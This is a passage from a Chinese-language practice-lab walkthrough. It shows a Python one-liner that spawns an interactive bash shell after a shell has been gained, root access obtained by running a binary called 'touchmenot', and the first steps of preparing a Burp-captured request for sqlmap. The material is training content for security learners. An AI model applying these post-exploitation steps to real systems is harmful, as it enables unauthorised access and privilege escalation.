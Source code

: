 获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20220318114528077](靶场练习.assets/image-20220318114528077.png)

## 4.3 获得root权限

在home/legacy路径下发现一个文件**touchmenot**

```
cd /home/legacy
```

运行这个文件

```
./touchmenot
```

运行后发现直接获得了root权限

![image-20220318115039486](靶场练习.assets/image-20220318115039486.png)

# 5.sqlmap应用

## 5.1 获得post文件

- 用burp对网站数据进行抓包
- 获得post文件
- 并把文件中的内容复制，粘贴到一个txt文件里面
- 然后把这个文件复制到kali中
- 并在文件的路径下打开终端运行sqlmap
